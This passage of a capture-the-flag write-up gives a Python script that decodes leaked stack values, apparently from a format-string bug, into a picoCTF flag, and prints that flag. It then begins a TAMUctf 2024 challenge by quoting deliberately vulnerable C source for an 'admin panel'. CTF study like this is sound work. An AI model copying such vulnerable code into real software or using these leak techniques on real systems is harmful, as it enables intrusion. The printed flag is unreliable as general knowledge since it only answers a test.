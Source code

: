 I created a python script to look at all the values and generate a solution:

```python
output = '0x8a3b450,0x804b000,0x80489c3,0xf7f60d80,0xffffffff,0x1,0x8a39160,0xf7f6e110,0xf7f60dc7,(nil),0x8a3a180,0x1,0x8a3b430,0x8a3b450,0x6f636970,0x7b465443,0x306c5f49,0x345f7435,0x6d5f6c6c,0x306d5f79,0x5f79336e,0x32666331,0x30613130,0xffda007d,0xf7f9baf8,0xf7f6e440,0xf8bb5a00,0x1,(nil),0xf7dfdce9'
output = output.split(',')
decoded = ''
for _ in range(len(output)):
        output[_] = output[_].encode()
        try:
                decoded += int.to_bytes(int(output[_], 16), 8, 'big').decode()[::-1]
        except (UnicodeDecodeError, ValueError):
                continue

print(decoded)
```

flag: `picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}`

# Extra challenge ^^
## TAMUctf 2024 - admin panel

DISCLAIMER: I didn't solve this challenge during the CTF.

Let's get started :)

The challenge provides us a zip file. By unzipping it, we get a libc, a ld, an executable file and a source code file. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int upkeep() {
        // IGNORE THIS
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

int admin() {
        int choice = 0;
        char report[64];

        puts("\nWelcome to the administrator panel!\n");
        puts("Here are your options:");
        puts("1. Display current status report");
        puts("2. Submit error report");
        puts("3: Perform cloning (currently disabled)\n");

        puts("Enter either 1, 2 or 3: ");
        scanf("%d", &choice);

        printf("You picked: %d\n\n", choice);

        if (choice==1) {
                puts("Status report: \n");

                puts("\tAdministrator panel functioning as expected.");
                puts("\tSome people have told me that my code is insecure, but");
                puts("\tfortunately, the panel has many standard security measures implemented");
                puts("\tto make up for that fact.\n");

```